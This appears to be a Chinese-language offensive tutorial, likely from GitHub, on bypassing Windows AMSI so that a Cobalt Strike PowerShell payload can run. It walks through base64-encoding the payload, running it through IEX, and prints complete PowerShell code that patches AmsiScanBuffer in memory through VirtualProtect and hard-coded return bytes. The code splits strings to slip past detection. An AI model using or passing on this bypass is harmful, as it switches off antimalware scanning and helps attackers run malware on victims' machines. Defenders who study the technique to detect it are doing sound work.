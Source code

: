 


# 0x02.通过修补 AMSI.dll 的操作码绕过ASMI

### 1.用cobaltstrike生成一个pyaload.ps1（）
![image](https://user-images.githubusercontent.com/89376703/155829428-4443b718-5d03-491f-84c7-87fbb089ddd0.png)

![image](https://user-images.githubusercontent.com/89376703/155735869-45a3c954-8737-4ac4-a4ad-3b750f335b82.png)



### 使用C#加密器对整个ps1文件进行base64加密（也可用base64加密解密网站：https://www.qqxiuzi.cn/bianma/base64.htm 注意：在加密之前删除无用的空行，避免出现解密时出现错误）
![image](https://user-images.githubusercontent.com/89376703/155734073-c1d9b0d1-0da9-40b2-ad38-bdc10a5563fb.png)



### 重新创建一个文件命名为pay.ps1,将上面的base64密文复制粘贴到下面代码的$decryption字符串变量中


![image](https://user-images.githubusercontent.com/89376703/155734157-19d0ed09-04fd-4ce2-90d4-6b27b0ef65cc.png)


### 这里就是一个常用的base64的解密公式，然后用IEX去执行解密后的密文

``` 
解密后的变量 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(加密后的变量)); 
```



### 但是amsi.dll对IEX是有严格限制的，直接执行解密密文必然会被拦截，因此这里我们需要一段破坏或者劫持amsi.dll的ps代码

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
